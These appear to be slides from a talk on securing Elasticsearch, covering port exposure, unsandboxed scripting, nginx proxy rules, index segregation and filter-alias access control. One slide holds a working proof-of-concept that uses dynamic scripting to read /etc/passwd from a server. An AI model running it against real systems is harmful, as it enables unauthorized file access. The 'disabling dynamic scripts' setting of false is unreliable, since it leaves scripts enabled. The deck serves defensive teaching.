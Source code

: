   ## Securing Elasticsearch


  ### Elasticsearch trusts you

  * There is no concept of a user
  * Out the box, systems that have access to port 9200 can basically do whatever they want
  * Do not allow direct access to port 9200


  ### Scripting

  * Elasticsearch provides robust scripting support
  * These scripts are *not* run in a sandbox
  * [Remote code execution is possible](http://blog.liftsecurity.io/2013/11/30/elasticsearch-command-execution-using-script)


  ### How to read a file system using dynamic scripts

  ```python
  read_file = (filename) ->
    """
    import java.io.File;
    import java.util.Scanner;
    new Scanner(new File("#{filename}")).useDelimiter("\\\\Z").next();
    """

  # This PoC assumes that there is at least one document stored in Elasticsearch, there are ways around that though
  $ ->
    payload = {
      "size": 1,
      "query": {
        "filtered": {
          "query": {
            "match_all": {
            }
          }
        }
      },
      "script_fields": {}
    }

    for filename in ["/etc/hosts", "/etc/passwd"]
      payload["script_fields"][filename] = {"script": read_file(filename)}

    $.getJSON "http://localhost:9200/_search?source=#{encodeURIComponent(JSON.stringify(payload))}&callback=?", (data) ->
      console.log(data)
      for hit in data["hits"]["hits"]
        for filename, contents of hit["fields"]
          document.write("<h2>#{filename}</h2>")
          for content in contents
            document.write("<pre>" + content + "</pre>")
          document.write("<hr>")
  ```


### Disabling dynamic scripts

```yaml
script.disable_dynamic: false
```


### Use preloaded scripts instead

```bash
$ cat config/scripts/scoring/recency_boost.mvel
(0.08 / ((3.16*pow(10,-11)) * abs(now - doc['timestamp'].date.getMillis()) + 0.05)) + 1.0
```

```json
{
  "script": "scoring_recency_boost",
  "params": {
    "now": 1386176910000
  }
}
 ```


### Segregate different tenants/users into separate indexes

* This allows you to create some high-level URL rules to eliminate cross-polination
* Some apis like multi-search, multi-get and bulk allow take indexes as URL parameters or in the request body
* Lock this down with `allow_explicit_index: false`


### Sample nginx proxy rules

```nginx
#
# Nginx proxy for Elasticsearch + Kibana
#
# In this setup, we are password protecting the saving of dashboards. You may
# wish to extend the password protection to all paths.
#
# Even though these paths are being called as the result of an ajax request, the
# browser will prompt for a username/password on the first request
#
# If you use this, you'll want to point config.js at http://FQDN:80/ instead of
# http://FQDN:9200
#
server {
  listen                *:80 ;

  server_name           kibana.myhost.org;
  access_log            /var/log/nginx/kibana.myhost.org.access.log;

  location / {
    root  /usr/share/kibana3;
    index  index.html  index.htm;
  }

  location ~ ^/_aliases$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }
  location ~ ^/.*/_aliases$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }
  location ~ ^/_nodes$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }
  location ~ ^/.*/_search$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }
  location ~ ^/.*/_mapping {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }

  # Password protected end points
  location ~ ^/kibana-int/dashboard/.*$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
    limit_except GET {
      proxy_pass http://127.0.0.1:9200;
      auth_basic "Restricted";
      auth_basic_user_file /etc/nginx/conf.d/kibana.myhost.org.htpasswd;
    }
  }
  location ~ ^/kibana-int/temp.*$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
    limit_except GET {
      proxy_pass http://127.0.0.1:9200;
      auth_basic "Restricted";
      auth_basic_user_file /etc/nginx/conf.d/kibana.myhost.org.htpasswd;
    }
  }
}
```


### Include ACLs in document body

```json
{
  "title": "Elasticsearch in Action",
  "price": 34.99,
  "visible_to_groups": [
    "spantree",
    "kcura"
  ],
  "visible_to_users": [
    "george_smith",
    "jane_jones"
  ]
}
```


### Use filter aliases to enforce ACLs

```json
curl -XPOST 'http://localhost:9200/_aliases' -d '{
  "actions": [
    {
      "add": {
        "index": "books",
        "alias": "books_visible_to_group_spantree",
        "filter": {
          "term": { "visible_to_group": "spantree" }
        }
      }
    }
  ]
}'
```


### For more complex requirements, consider a middle tier gateway app

* When you need things like field-level access policies, consider writing a gateway app
* Prefer to use asynchronous, non-blocking frameworks like [Node.js](http://nodejs.org/), [Ratpack](http://www.ratpack.io/) or [Frank](https://github.com/panesofglass/frank).


### Pseudocode for a gateway app

```coffee
http.createServer (req, res) ->
  # Authenticate and get user context
  userContext = authenticateAndGetUserContext(req)
  if userContext
    http.request "#{esRoot}/{req.path}", (esResponse, json) ->
      if not userContext.shouldPriceBeVisible
        delete json.price
      res.writeHead esResponse.head
      res.write json
      res.end()
  else
    res.writeHead 401, 'Unauthorized access'
```


### (Completely speculative) future security features

* Dynamic scripts running in a sandbox?
* Pluggable authentication (via CAS, JAAS, etc)?
* Document-level security?